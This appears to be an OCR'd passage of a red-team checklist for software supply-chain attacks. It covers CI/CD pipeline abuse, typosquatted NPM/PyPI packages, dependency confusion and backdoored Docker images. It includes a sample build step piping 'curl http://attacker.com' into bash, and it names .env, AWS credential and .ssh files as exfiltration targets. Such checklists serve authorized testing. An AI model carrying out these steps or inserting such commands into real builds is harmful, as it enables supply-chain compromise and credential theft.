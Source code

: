 
---

### 🛠 2. **CI/CD Pipeline Attacks**

| Attack Surface                                                                       | Actions |
| ------------------------------------------------------------------------------------ | ------- |
| ☐ Check `.github/workflows/`, `.gitlab-ci.yml`, `Jenkinsfile`                        |         |
| ☐ Identify workflows that auto-execute on pull/merge without manual approval         |         |
| ☐ Submit malicious PR that triggers GitHub Action/CI run                             |         |
| ☐ Modify build steps (e.g., adding \`curl [http://attacker.com](http://attacker.com) | bash\`) |
| ☐ Search for tokens or secrets exfiltrated during builds                             |         |
| ☐ Abuse misconfigured runners with container access or host bind mounts              |         |
| ☐ Detect unscoped packages or credentials reused across workflows                    |         |

---

### 🐍 3. **Typosquatting & Dependency Confusion**

| Attack Surface                                                 | Actions |
| -------------------------------------------------------------- | ------- |
| ☐ Publish malicious NPM/PyPI packages with:                    |         |
|  - Similar names (`reqeusts`, `os-utils`, etc.)                |         |
|  - Common typos or internal tool names                         |         |
| ☐ Monitor telemetry to see if the package is pulled            |         |
| ☐ Upload to Docker Hub a container named `company-base:latest` |         |
| ☐ Target `.env`, AWS credentials, or `.ssh` files for exfil    |         |

---

### 🧬 4. **Docker / Image Tampering**

| Attack Surface                                               | Actions |
| ------------------------------------------------------------ | ------- |
| ☐ Identify Dockerfile base image (e.g., `FROM ubuntu:18.04`) |         |
| ☐ Build backdoored versions and upload to Docker Hub         |         |
| ☐ Scan for images using `latest` or unverified SHA digests   |         |
| ☐ Inject payloads into `ENTRYPOINT` or shell scripts         |         |
| ☐ Attempt lateral movement from CI/CD to registry            |         |

---

